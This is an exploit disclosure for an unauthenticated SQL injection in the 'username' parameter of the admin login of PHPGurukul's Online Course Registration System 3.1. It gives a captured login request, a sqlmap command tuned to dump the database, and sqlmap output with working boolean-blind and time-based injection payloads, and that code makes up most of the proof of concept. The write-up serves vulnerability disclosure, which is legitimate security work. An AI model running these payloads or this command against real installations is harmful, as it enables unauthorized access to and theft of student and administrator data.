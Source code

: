 # Online Course Registration System - SQL Injection - 1 (Unauthenticated)
+ **Exploit Title:** Online Course Registration System - SQL Injection - 1 (Unauthenticated)
+ **Date:** 2024-17-04
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://phpgurukul.com/online-course-registration-free-download/
+ **Software Link:** https://phpgurukul.com/?sdm_process_download=1&download_id=7515
+ **Version:** 3.1
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
Online Course Registration System allows SQL Injection via the 'username' parameter at "http://localhost/onlinecourse/admin/". 
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/onlinecourse/admin/"
+ Try logging in by typing random things
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:

```
POST /onlinecourse/admin/index.php HTTP/1.1
Host: localhost
Content-Length: 35
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/onlinecourse/admin/index.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: language=en; continueCode=5vLeVxlRzkNb47vKDPMo5Lq8wdzLtvf1Hem0jn6EZm2ygrX19BpaQWOJY3oM; welcomebanner_status=dismiss; cookieconsent_status=dismiss; PHPSESSID=gjt4nlgufp0uq0eep225bjaqoa
Connection: close

username=test&password=test&submit=

```

+ Use sqlmap to exploit. In sqlmap, use 'username' parameter to dump the database.
```
sqlmap -r r.txt -p username --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: username=-6622' OR 9595=9595-- PTaA&password=test&submit=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=test' AND (SELECT 7548 FROM (SELECT(SLEEP(5)))vOsB)-- aJtj&password=test&submit=
---
[19:45:50] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[19:45:50] [INFO] fetching current database             
current database: 'onlinecourse'
```
+ current database: `onlinecourse`

![Ekran görüntüsü 2024-05-16 130355](https://github.com/BurakSevben/CVEs/assets/117217689/4fe9f9c7-edf1-4e06-8ff5-1014c98f4ba7)
